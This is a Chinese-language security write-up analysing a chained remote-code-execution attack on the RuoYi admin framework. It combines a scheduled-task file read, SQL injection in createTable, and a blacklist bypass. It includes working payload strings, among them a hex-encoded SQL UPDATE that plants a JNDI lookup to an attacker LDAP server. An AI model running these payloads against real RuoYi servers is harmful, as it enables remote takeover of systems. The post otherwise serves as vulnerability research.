# 最新 Ruoyi 组合拳 RCE 分析 - 先知社区

最新 Ruoyi 组合拳 RCE 分析

- - -

## 开门见山

最新版 ruoyi rce 的方法依旧是在定时任务处：定时任务中可以调用特定包内的 bean，通过`genTableServiceImpl`直接执行 sql 来更改定时任务内容，从而绕过黑白名单的限制。既然是组合拳 rce，因此就先分析下另外两个漏洞，而 rce 自然而然就出来了

## 定时任务 + 文件读取=任意文件读取

先来简单聊一下若依任意文件读取（CVE-2023-27025），影响版本在 4.7.6 之前  
众所周知，ruoyi 计划任务能调用 bean 或者 class 类，这里就是通过调用`ruoYiConfig.setProfile`，来更改本地上传文件路径  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190447-5a3231d8-d6f2-1.png)  
且该 bean 包名能通过黑白名单校验  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190458-6072bab8-d6f2-1.png)  
`/common/download/resource`接口能读取文件  
虽然前端对传入文件名`resource`进行过滤，**但本地资源路径通过上文计划任务变为可控**，此时更改`ruoYiConfig.setProfile`的配置文件为任意想要读取的文件即可，也就达到了任意文件读取效果  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190515-6ab271b2-d6f2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229192118-a8855688-d6f4-1.png)

## createTable 处的 Sql 注入

在 ruoyi 4.7.5 版本之前，后台存在 sql 注入  
接口`/tool/gen/createTable`处，定位到代码，其功能为创建数据表。将 sql 语句直接从前端传入，并执行  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190541-79deef76-d6f2-1.png)  
Mapper 语句：

```plain
<update id="createTable">
      ${sql}
</update>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229192427-199acf60-d6f5-1.png)

## 定时任务+SQL 注入=RCE

根据上文的注入可以找到`genTableService`的实现类：`GenTableServiceImpl`，该类同样满足黑白名单条件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190611-8c03c474-d6f2-1.png)  
在启动类中我们可以修改代码如下，打印出项目中所有加载的 bean，

```plain
ConfigurableApplicationContext run = SpringApplication.run(RuoYiApplication.class, args);
String[] beanDefinitionNames = run.getBeanDefinitionNames();
for (String beanDefinitionName : beanDefinitionNames) {
    System.out.println(beanDefinitionName);
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190647-a1b4a676-d6f2-1.png)  
于是我们可以调用`genTableServiceImpl.createTable`实现 sql 语句执行  
ruoyi 黑白名单校验仅出现在`com.ruoyi.quartz.controller.SysJobController#addSave`，而任务状态修改接口中并没有添加

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190736-be901528-d6f2-1.png)  
如果我们配合上文的注入在`sys_job`数据表中直接插入恶意计划任务，即可不调用`addSave`方法添加计划任务内容，成功绕过黑白名单限制  
数据库中计划任务表结构如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229190808-d1c88ff8-d6f2-1.png)  
这里选择图个方便，直接使用 update 来修改 invoke\_target 为 Jndi payload：

```plain
javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')
```

updata 执行语句为

```plain
genTableServiceImpl.createTable("UPDATE sys_job SET invoke_target = \"javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')\" WHERE job_id = 3;")
```

但会触发黑名单

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191218-66cdfb92-d6f3-1.png)  
既然是执行 sql 语句，直接将 value 转为 16 进制即可

```plain
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

此时是能成功执行`org.quartz.Scheduler#scheduleJob`来调度任务的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191249-79768e1c-d6f3-1.png)  
成功更新 sys\_job 数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191300-7ff89546-d6f3-1.png)

### 漏洞复现

启动 jndi 利用工具：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191310-85be9a7a-d6f3-1.png)  
添加任务：修改 id 为 3 的计划任务为 jndi payload，并执行

```plain
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191326-8f809360-d6f3-1.png)  
此时任务 3 的调用字符串已经是 Jndi payload 了，后面直接通过`/monitor/job/changeStatus`接口直接更改任务状态触发 Jndi

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191343-995fcc48-d6f3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191346-9b73ad9c-d6f3-1.png)  
此外根据 ruoyi 默认依赖，还可以使用[jndi-plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md "jndi-plus")的 jackson 反序列化来实现 rce

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191441-bbc85822-d6f3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229191450-c15017ee-d6f3-1.png)

## 参考文章

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README\_zh.md](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md)  
[https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC](https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC)
